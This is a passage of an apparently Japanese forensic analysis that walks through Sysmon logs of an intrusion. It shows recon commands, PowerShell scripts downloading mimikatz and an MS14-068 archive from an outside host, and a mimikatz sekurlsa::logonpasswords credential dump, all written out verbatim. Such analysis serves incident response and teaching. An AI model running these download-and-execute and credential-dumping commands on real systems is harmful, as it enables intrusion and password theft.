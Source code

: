 2. 起動プロセスの確認
```
2019/11/07 15:18:40,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""tasklist""      
```
3. 権限の確認
```
2019/11/07 15:20:15,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""whoami /all""    (権限の確認)
```

4. AD情報の列挙
```
2019/11/07 15:21:15,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\csvde.exe -f C:\Intel\Logs\l.txt""
```

#### ② mimikatzのダウンロード
z.ps1を用いてmimikatzと思われる`mz.exe`のダウンロードが実行された
```

2019/11/07 15:22:00,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""echo $p = New-Object System.Net.WebClient > C:\Intel\Logs\z.ps1""

2019/11/07 15:22:25,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""echo $p.DownloadFile(""http://anews-web.co/mz.exe"", ""C:\Intel\Logs\mz.exe"") >> C:\Intel\Logs\z.ps1""

2019/11/07 15:22:51,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""powershell -ExecutionPolicy ByPass -File C:\Intel\Logs\z.ps1""

```

#### ③ mimikatzによるクリアテキストのログオンパスワードの奪取
sekurlsa::logonpasswordsモジュールが利用されており、ユーザのログオンパスワードがクリアテキストで保存されている可能性をついたようだ
```
2019/11/07 15:23:54,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\mz.exe ""privilege::debug"" ""sekurlsa::logonpasswords"" exit > C:\Intel\Logs\c.txt""
```

#### ④　p.ps1によるrar.exe及びms14068.rarアーカイブのダウンロード
```
,2019/11/07 15:25:43,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""powershell -ExecutionPolicy ByPass -File C:\Intel\Logs\p.ps1""

,2019/11/07 15:25:19,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""echo $p.DownloadFile(""http://anews-web.co/ms14068.rar"", ""C:\Intel\Logs\ms14068.rar"") >> C:\Intel\Logs\p.ps1""

,2019/11/07 15:24:58,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""echo $p.DownloadFile(""http://anews-web.co/rar.exe"", ""C:\Intel\Logs\rar.exe"") >> C:\Intel\Logs\p.ps1""

,2019/11/07 15:24:37,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
```